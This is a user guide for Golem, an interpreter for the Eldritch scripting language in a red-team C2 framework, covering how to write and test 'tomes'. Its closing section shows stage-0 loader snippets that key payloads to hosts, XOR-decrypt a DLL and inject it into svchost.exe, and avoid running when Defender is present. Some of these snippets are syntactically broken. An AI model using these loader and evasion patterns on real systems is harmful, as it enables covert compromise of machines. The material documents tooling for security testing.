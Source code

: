 ```yaml
---
title: Golem
tags:
 - User Guide
description: Golem User Guide
permalink: user-guide/golem
---
```

## What is Golem

Golem is the standalone interpreter for Eldritch.
This program exists to help users get experience with the Eldritch language as well as a jumping off point if you're interested in implementing your own program using the Eldritch language.

Golem can also be used operationally as an alternative to a system native shell.
You can leverage the power of Eldritch with minimal exposure in the system process tree.

## Try it out

```bash
git clone git@github.com:spellshift/realm.git
cd realm/implants/golem
cargo run -- -i
# - or -
cargo build --release && \
    ../target/debug/golem ../../tests/golem_cli_test/tomes/hello_world.tome
```

## Creating and testing tomes

Golem is a great way to create and test tomes without deploying the entire Realm project.
Golem operates in three different modes:

- Interactive `-i`
- With embedded tomes _no args_
- On a specific tome `/path/to/tome/eldritch.main`

In this guide we'll leverage the last one.

### Tome structure

Copy an existing tome and rename it to your desired name.

```bash
[~/realm]$ cd tavern/tomes/
[./tomes]$ cp -r ./file_list ./new_tome
```

This will setup the boiler plate.
A tome file structure should look like this:

```
./new_tome/
├── files
│   └── test-file
├── main.eldritch
└── metadata.yml
```

_If you have no files associated with your tome you can ommit the `files` dir_

- main.eldritch - Defines our actual eldritch functionality and what will be executed on the agent.
- metadata.yaml - Defines information that tavern will use to prepare your tome including prompting users for input.

### Tome Metadata

Your tome Metadata should look like this:

```yaml
name: List files # The name of your tome.
description: List the files and directories found at the path # A description to help users understand what your tome does.
author: hulto # Your Github username.
support_model: FIRST_PARTY # Is this a tome that ships with Realm or not?
tactic: RECON # What stage of the MITRE ATT&CK chain does this tome fall into?
paramdefs: # A list of inputs the tome requires.
- name: path # The name of the input parameter `input_params['path']`.
  type: string # The type of the input parameter.
  label: File path # A Label that will be displayed in the UI to help users understand the purpose.
  placeholder: "/etc/" # A placeholder to give users an idea of how their input should be formatted.
```

### Building your eldritch script

Eldritch while it looks like python is distinct and many features in python do not exist in Eldritch.

For an almost complete list of syntax checkout the starlark (DSL which eldritch is based on) docs <https://bazel.build/rules/language>
*Note: The docs may be incorrect in some places as we're using the starlark-rust implementation which doesn't always adhere to the starlark spec.*

```python
# Define our function for the tome and any inputs
def file_list(path):
    # make sure you proactively check the state of the system.
    # Users may pass bad data in or the system may be in an
    # unexpected state so always check if something is a dir
    # before treatingi it like one.
    if file.is_dir(path):
        files = file.list(path)
        for f in files:
            type_str = ""
            if f['type'] == "Directory":
                type_str = "Dir"
            if f['type'] == "Link":
                type_str = "Link"
            if f['type'] == "File":
                type_str = "File"
            # Formatting - By default eldritch will print data as a JSON Dictionary which is easy for scripts to read but
            # not great for humans to make your tome more usable make sure you print data in a readable way.
            print(f['permissions']+"\t"+f['owner']+"\t"+f['group']+"\t"+str(f['size'])+"\t"+f['modified']+"\t"+type_str+"\t"+f['file_name']+"\n")
    else:
        print("Error: Invalid Path ("+path+")\n")

# Call our tomes function.
file_list(input_params['path'])
# `input_params` is a dictionary that's implicitly passed into the eldritch runtime.
# The key value pairs in input_params is defined by the users answers to the paramdefs in the UI.
# For example if you specify `name: path` in your `metadata.yml` file the UI will ask the user for
# a path and then populate the `path` key in `input_params` when the tome runs.
# Input params is unique to each task so setting a var in one task won't affect others.
print("\n")
print("\n")
```

### Design ideology

Tomes are designed to accomplish specific workflows.
Some small tomes have been created to accomplish basic sysadmin tasks like reading, writing files, checking processes etc.
Ideally though if you have a specific workflow you'll define it as a tome.
We want to avoid queueing multiple questst to accomplish a workflow.

### Testing your tome

Now that your tome is created lets test it locally.

```bash
[~]$ cd realm/implants/golem
[./golem]$ cargo run -- ~/realm/tavern/tomes/new_tome/main.eldritch
# ...
# Tome output
# ...
```

_If you have input_params that you need to define for your tome manually set them for your test by adding a line like this:_

```python
input_params['path'] = "/tmp/"
file_list(input_params['path'])
```

## Golem embedded files

The Eldritch interpreter can embed files at compile time. To interact with these assets use the `assets` module in eldritch. In addition to programmatic access the embedded files can be automatically executed at run time. If no other option is specified `-i` or a file path, golem will iterate over every instance of `main.eldritch` in the embedded assets launching each one as a separate thread. This behavior is desirable when trying to perform recon or deploy persistence quickly.

## Golem as a stage 0

Golem can also be used as a stage 0 to load imix or other c2 agents.
This can help in a few ways such as:

- Keying payloads to specific hosts

```python
def main():
    if is_linux():
        if is_dir("/home/hulto/"):
            run_payload()
main()
```

- Executing encrypted payloads from memory

```python
def decrypt(payload_bytes):
    let res = []
    for byte in in payload_bytes:
        res.push(byte ^ 6)
    return res

def main():
    if is_windows():
        for proc in process.list():
            if "svchost.exe" in proc['name']:
                let enc_bytes = assets.read_bytes("imix.dll")
                sys.dll_reflect(decrypt(enc_bytes), proc['pid'], 'imix_main')
                return

main()
```

- Detecting security products before execution

```python
def main():
    for proc in process.list():
        if "MsMpEng.exe" in proc['name']:
            return
    run_payload()
main()
```
